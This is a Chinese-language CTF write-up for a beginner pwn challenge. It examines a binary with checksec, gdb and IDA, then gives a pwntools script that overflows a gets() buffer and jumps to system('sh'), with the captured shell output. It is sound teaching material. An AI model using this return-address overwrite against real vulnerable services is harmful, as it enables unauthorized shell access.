 # [2024SpringTrains] welcome-to-pwn WriteUp

## 工具准备

### 一台 Linux 系统 (推荐 Debian 系的比如 Ubuntu 或 Kali Linux 的 虚拟机 / WSL)

[Kali WSL 安装教程](https://herveyb3b4.github.io/2023/11/30/How-to-install-Kali-WSL/) ~~趁机宣传一下博客~~

### gdb 调试工具

```shell
sudo apt install gdb
```

### pwntools

```shell
sudo apt install python3-pwntools
```

或者直接使用 `pip3` 安装

```shell
python3 -m pip install pwntools
```

## 过程记录

下载后获得文件 attachment

先使用 `file` 命令查看文件类型，发现是一个 ELF 64 位程序

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ file ./attachment
./attachment: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ad1699dcda24040006490441da0f0e70ef03456, not stripped
```

接着使用 `checksec` 命令识别安全属性

```shell
┌──(hervey㉿Hervey)-[~/Downloads]
└─$ checksec --file=attachment
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   68 Symbols        No    0               1               attachment
```

可以发现无任何栈保护

使用 IDA 64 进行逆向

`main()` 函数

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[48]; // [rsp+0h] [rbp-30h] BYREF

  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
  puts("Welcome to Stringer CTF 2024.");
  gets(v4);
  return 0;
}
```

同时我们还能找到一个 `try_to_call_me` 函数

```c
int try_to_call_me()
{
  return system("sh");
}
```

所以我们的目标应该是利用 `gets()` 这个危险函数的缓冲区溢出漏洞，将 `v4` 变量数据溢出到覆盖返回地址，实现跳转到执行 `system("sh")` 进而去获得 flag

使用 `gdb` 运行 `attachment` 获得变量 v4 的缓冲区大小以及 `system("sh")` 对应的位置

```shell

┌──(hervey㉿Hervey)-[~/Downloads]
└─$ gdb
GNU gdb (Debian 13.2-1) 13.2
Copyright (C) 2023 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word".
(gdb) file attachment
Reading symbols from attachment...
(No debugging symbols found in attachment)
(gdb) disassemble main
Dump of assembler code for function main:
   0x000000000040069a <+0>:     push   %rbp
   0x000000000040069b <+1>:     mov    %rsp,%rbp
   0x000000000040069e <+4>:     sub    $0x30,%rsp
   0x00000000004006a2 <+8>:     mov    0x2009b7(%rip),%rax        # 0x601060 <stdout@@GLIBC_2.2.5>
   0x00000000004006a9 <+15>:    mov    $0x0,%ecx
   0x00000000004006ae <+20>:    mov    $0x2,%edx
   0x00000000004006b3 <+25>:    mov    $0x0,%esi
   0x00000000004006b8 <+30>:    mov    %rax,%rdi
   0x00000000004006bb <+33>:    call   0x400590 <setvbuf@plt>
   0x00000000004006c0 <+38>:    mov    0x2009a9(%rip),%rax        # 0x601070 <stdin@@GLIBC_2.2.5>
   0x00000000004006c7 <+45>:    mov    $0x0,%ecx
   0x00000000004006cc <+50>:    mov    $0x2,%edx
   0x00000000004006d1 <+55>:    mov    $0x0,%esi
   0x00000000004006d6 <+60>:    mov    %rax,%rdi
   0x00000000004006d9 <+63>:    call   0x400590 <setvbuf@plt>
   0x00000000004006de <+68>:    mov    0x20099b(%rip),%rax        # 0x601080 <stderr@@GLIBC_2.2.5>
   0x00000000004006e5 <+75>:    mov    $0x0,%ecx
   0x00000000004006ea <+80>:    mov    $0x2,%edx
   0x00000000004006ef <+85>:    mov    $0x0,%esi
   0x00000000004006f4 <+90>:    mov    %rax,%rdi
   0x00000000004006f7 <+93>:    call   0x400590 <setvbuf@plt>
   0x00000000004006fc <+98>:    lea    0xa4(%rip),%rdi        # 0x4007a7
   0x0000000000400703 <+105>:   call   0x400560 <puts@plt>
   0x0000000000400708 <+110>:   lea    -0x30(%rbp),%rax
   0x000000000040070c <+114>:   mov    %rax,%rdi
   0x000000000040070f <+117>:   mov    $0x0,%eax
   0x0000000000400714 <+122>:   call   0x400580 <gets@plt>
--Type <RET> for more, q to quit, c to continue without paging--c
   0x0000000000400719 <+127>:   mov    $0x0,%eax
   0x000000000040071e <+132>:   leave
   0x000000000040071f <+133>:   ret
End of assembler dump.
(gdb) disassemble try_to_call_me
Dump of assembler code for function try_to_call_me:
   0x0000000000400687 <+0>:     push   %rbp
   0x0000000000400688 <+1>:     mov    %rsp,%rbp
   0x000000000040068b <+4>:     lea    0x112(%rip),%rdi        # 0x4007a4
   0x0000000000400692 <+11>:    call   0x400570 <system@plt>
   0x0000000000400697 <+16>:    nop
   0x0000000000400698 <+17>:    pop    %rbp
   0x0000000000400699 <+18>:    ret
End of assembler dump.
```

从这里我们可以得知:

* 变量 `v4` 的地址位于 `rbp-30h` ，64位程序还需要再加 8 位，即 `rbp-38h`
* `system("sh")` 语句对应的地址为 `0x000000000040068b`

由此我们可以写出脚本

```python
from pwn import *
p = remote("<IP Address>", <Port>)
payload = b'A' * 0x30 + b'12345678' + p64(0x40068B)
p.sendline(payload)
p.interactive()
```

运行该脚本，进入容器终端

```shell
┌──(hervey㉿ZHW)-[~/Downloads]
└─$ python3 ./sol.py
[+] Opening connection to <IP Address> on port <Port>: Done
[*] Switching to interactive mode
Welcome to Stringer CTF 2024.
$ ls
attachment
bin
dev
flag
lib
lib32
lib64
$ cat flag
flag{<flag>}
```

进而获得 flag

